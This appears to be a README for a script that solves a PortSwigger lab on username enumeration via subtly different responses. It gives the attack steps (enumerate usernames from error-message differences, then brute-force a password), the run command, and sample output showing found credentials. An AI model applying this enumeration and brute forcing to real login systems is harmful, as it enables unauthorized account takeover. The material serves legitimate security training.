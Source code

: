 # Hack Steps
1. Obtain a valid username via subtly different error messages
2. Brute force password of that valid username

# Run Script
1. change the URL of the lab
2. change the PATH for your usernames list
3. change the PATH for you passwords list
4. Start script
```
~$ python username_enumeration_via_different_resposnes.py
```
# Expected Output
```
[#] Enumerate usernames..
Elapsed: 0 minutes || Failed: 0 || Trying (6/101): adam                                              
[#] Brute forcing password..
✅ Valid user: adam
Elapsed: 0 minutes || Failed: 0 || Trying (74/102): joshua                                            
✅ Login successfully:  username: adam, password: joshua
✅ Finished in: 0 minutes
Results was saved to: results
Failed users count: 0
Failed users: [  ]
Failed passwords count: 0
Failed passwords: [  ]
```

# Want to go faster?
Check the [Rust script](https://github.com/elqalawii/portswigger_labs_with_rust/tree/main/Authentication/username_enumeration_via_subtly_different_responses) for this lab in both single-threaded and multi-threaded approaches.
